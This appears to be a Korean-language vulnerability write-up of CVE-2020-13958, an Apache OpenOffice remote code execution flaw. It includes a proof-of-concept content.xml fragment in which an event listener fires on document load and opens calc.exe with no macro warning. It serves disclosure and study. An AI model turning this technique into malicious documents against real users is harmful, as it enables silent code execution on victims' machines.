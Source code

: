# Apache OpenOffice RCE (CVE-2020-13958)

* Date : Apr 2020
* Credit : [Imre Rad](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
* CVSS : [N/A](https://nvd.nist.gov/vuln/detail/CVE-2020-13958)
* Affected Versions : Apache OpenOffice 4 versions before 4.1.8

## Description
Apache OpenOffice는 오픈소스 형태의 사무용 생산성 소프트웨어이며, Office 365나 LibreOffice와 유사한 기능을 제공한다. 이처럼 활용도가 높은 소프트웨어에서 논리적 취약점(logical bug)이 존재하여 RCE(Remote Code Execution)까지 연계될 수 있는 위험이 있다. 보통, 문서 편집기의 경우 매크로 악성코드가 실행되는 것을 막기 위해 매크로 실행(macro execution)들에 대해서는 사용자에게 알람이 가도록 설정(e.g., `편집 사용` 클릭하기)되어 있다. 안정성을 위해 반드시 그래야 한다. 그러나 OpenOffice의 경우 `script:event-listener` 핸들러에 대해서 매크로 실행으로 규정하고 있지 않아 해당 핸들러를 이용해 특정 사이트로 연결(이는 특정 프로그램 실행으로도 연계 가능)하는 코드를 삽입하여 특정 사이트로 연결되거나 시스템내의 특정 프로그램을 실행할 수 있게 된다. 이에 `.odt` 확장자 형태로 **calc.exe** 프로그램을 실행하는 PoC를 작성하였다. 

## PoC
```xml
<?xml version="1.0" encoding="UTF-8"?>
...
<office:scripts>
   <office:event-listeners>
   
    <script:event-listener script:language="ooo:script" xlink:href=".uno:OpenHyperlinkOnCursor" script:event-name="dom:load"/>

   </office:event-listeners>
</office:scripts>

<office:font-face-decls>...<text:a xlink:type="simple" xlink:href="file:///c:/windows/system32/calc.exe" text:style-name="Internet_20_link" text:visited-style-name="Visited_20_Internet_20_Link">Foobar</text:a></text:p><text:p text:style-name="Standard"/></office:text></office:body></office:document-content>
```

위 파일은 `.odt` 파일내에 존재하는 **content.xml** 파일의 일부이다. 이전에 언급한대로 `script:event-listener` 핸들러를 정의하고 이벤트는 DOM 객체가 load 되는 행위로 정의한다. 즉, 문서 파일을 열게 되면 실행되는 스크립트이다. 그 다음에는 `xlink:href`의 속성 값으로 실행하고자 하는 특정 파일의 경로를 지정한다. 여기서는 **calc.exe** 프로그램의 경로를 지정하여 해당 파일을 OpenOffice로 열 경우 계산기가 띄워지게 된다. 테스트는 Apache OpenOffice 4.1.7 버전에서 수행하였다.
![demo](img/apache-openoffice-demo.gif)

## Reference
- [OpenOffice Advisory](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
- [PoC](https://github.com/irsl/apache-openoffice-rce-via-uno-links?fbclid=IwAR0dWK8OVVVU2Z1iy5Oq52CcB2tCt9Q5g4-ZvX5mM_QJ3JzGdG3ERAm6JJ4)
